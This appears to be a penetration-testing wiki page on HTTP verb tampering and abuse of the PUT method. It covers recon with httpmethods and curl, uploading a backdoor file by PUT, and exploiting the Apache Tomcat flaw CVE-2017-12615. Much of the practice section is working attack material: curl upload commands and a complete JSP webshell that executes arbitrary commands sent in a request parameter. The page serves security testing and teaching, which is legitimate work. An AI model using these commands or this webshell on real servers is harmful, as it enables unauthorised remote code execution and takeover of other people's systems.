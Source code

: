 # HTTP methods

## Theory

### Verb tampering

Some websites filter access to resources but fail at filtering out all HTTP methods. When an attacker tries to access a resource with different methods (GET, POST, HEAD, etc.) to bypass the access control, this is called HTTP verb tampering.

### Methods abuse

Some HTTP methods can be used for malicious purposes: `PUT`, `DELETE`, etc. The HTTP methods abuse is not aimed at gaining access to a specific page like verb tampering but more like what methods are accepted by the server and how can an attacker profit from those.

## Practice

### Recon

Testing for HTTP verb tampering and method abuse can be done with [httpmethods](https://github.com/ShutdownRepo/httpmethods).

```bash
httpmethods -u "https://target.url/"
httpmethods -u "https://target.url/restricted_page"
```

A manual HTTP request with the `OPTIONS` method can also be used to enumerate what methods are supported. This works if the `OPTIONS` methods is allowed in the first place.

```bash
curl --include --request OPTIONS "https://target.url/"
```

### Abusing the `PUT` method

The `PUT` method can be used to upload arbitrary files. Some directories have different rights, it can be useful to test the method on a wide range of directories.

```bash
curl --include --upload-file "backdoor.php" "https://target.url/"
```

### Apache Tomcat JSP PUT - CVE-2017-12615

Abusing the `PUT` method also applies to **CVE-2017-12615**: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialization parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Exploitation of this vulnerability can be achieved manually by creating a `.jsp` file and by uploading it to the target server.

{% code title="test.jsp" %}
```java
<% out.write("<html><body><h3>JSP upload successfully</h3></body></html>"); %>
```
{% endcode %}

```bash
curl --include --upload-file "test.jsp" "https://target.url/"
```

If the upload is successful, the following JSP webshell ([source](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)) can then be uploaded to attempt at execute arbitrary commands on the remote server.

{% code title="webshell.jsp" %}
```java
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
{% endcode %}

